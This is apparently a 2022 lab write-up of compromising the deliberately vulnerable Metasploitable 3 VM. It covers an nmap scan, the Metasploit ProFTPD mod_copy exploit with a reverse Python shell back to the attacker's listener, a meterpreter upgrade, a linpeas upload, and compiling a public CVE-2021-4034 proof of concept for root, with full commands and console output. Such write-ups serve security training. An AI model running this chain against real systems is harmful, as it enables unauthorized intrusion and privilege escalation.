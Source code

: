 # Metasploitable 3 Walkthrough
> Quasar | 2022

## Initial analysis:
Nmap scan: ``% nmap -T4 -Pn -oN nmap_ports.txt -sV 192.168.244.133`` where ``192.168.244.133`` is the IP address of the Virtual Machine
Results:
```
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http        Apache httpd 2.4.7 ((Ubuntu))
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
8080/tcp open   http        Jetty 8.1.7.v20120910
8181/tcp closed intermapper
Service Info: Host: UBUNTU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Exploitation
Let's try the first hit on metasploit:

``% msfconsole ``

```
msf6 > search proftpd
Matching Modules
================
   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   3  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   4  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
   5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
```

The 4th one seems promising as the version number (1.3.5) matches with the machine.

```
msf6 > use 4
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www         yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   ProFTPD 1.3.5
```

Now, the variables ``RHOSTS`` and the ``SITEPATH`` need to be corrected.

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.168.244.133
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
```

Also, we need to set a payload for this exploit. This module only supports cmd/unix/* payloads.
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload cmd/unix/
set payload cmd/unix/bind_awk            set payload cmd/unix/generic             set payload cmd/unix/reverse_perl_ssl
set payload cmd/unix/bind_perl           set payload cmd/unix/reverse_awk         set payload cmd/unix/reverse_python
set payload cmd/unix/bind_perl_ipv6      set payload cmd/unix/reverse_perl        set payload cmd/unix/reverse_python_ssl
```
Now:

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set PAYLOAD cmd/unix/reverse_python
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST vmnet8
```
``vmnet8`` is my NAT interface (and for) which the listener will be listening on.

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.244.1:4444 
[*] 192.168.244.133:80 - 192.168.244.133:21 - Connected to FTP server
[*] 192.168.244.133:80 - 192.168.244.133:21 - Sending copy commands to FTP server
[*] 192.168.244.133:80 - Executing PHP payload /UeJyDI.php
[*] Command shell session 1 opened (192.168.244.1:4444 -> 192.168.244.133:35430) at 2022-07-30 23:15:27 +0530

```

Success, we now have a shell to work with!

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions -i 1
[*] Starting interaction with 1...

bash -i
bash: cannot set terminal process group (1794): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$ 
```

## Post exploitation
Now, let's try for a meterpreter:

```
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST    192.168.244.1    no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on
```
This is the output after correcting the "blank spots/incorrect variables". Now, running it gives:

```
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.244.1:4433 
[*] Sending stage (989032 bytes) to 192.168.244.133
[*] Meterpreter session 2 opened (192.168.244.1:4433 -> 192.168.244.133:49703) at 2022-07-30 23:36:49 +0530
[*] Command stager progress: 100.00% (773/773 bytes)

meterpreter > 
```

Cool!
Now, let's try to get root access on this machine.

We scan for any vulnerabilities using linpeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Just download it from the web in the machine or upload it using the meterpreter.

```
meterpreter > upload CTF/Metasploitable3/uploads/linpeas.sh
[*] uploading  : /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 758.81 KiB (0.0%): /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
[*] uploaded   : /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
```

Now, running it inside the machine gives a lot of information about the it.

```
meterpreter > shell
cd /dev/shm
bash -i
www-data@ubuntu:/run/shm$ chmod +x linpeas.sh
www-data@ubuntu:/run/shm$ ./linpeas.sh
```

Immediately, linpeas pops up with a CVE number:

```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034
```

Now, searching for the PoC's for the CVE in internet gave: https://github.com/arthepsy/CVE-2021-4034 (credits intended)
And we have git in the machine.

So,
```
www-data@ubuntu:/run/shm$ git clone https://github.com/arthepsy/CVE-2021-4034
Cloning into 'CVE-2021-4034'...
www-data@ubuntu:/run/shm$ ls
CVE-2021-4034
linpeas.sh
www-data@ubuntu:/run/shm$ cd CVE-2021-4034
www-data@ubuntu:/run/shm/CVE-2021-4034$ ls
README.md
cve-2021-4034-poc.c
www-data@ubuntu:/run/shm/CVE-2021-4034$ cc cve-2021-4034-poc.c
www-data@ubuntu:/run/shm/CVE-2021-4034$ ./a.out
bash -i
bash: cannot set terminal process group (1794): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/run/shm/CVE-2021-4034# whoami
root
```

And we got root access for the machine.
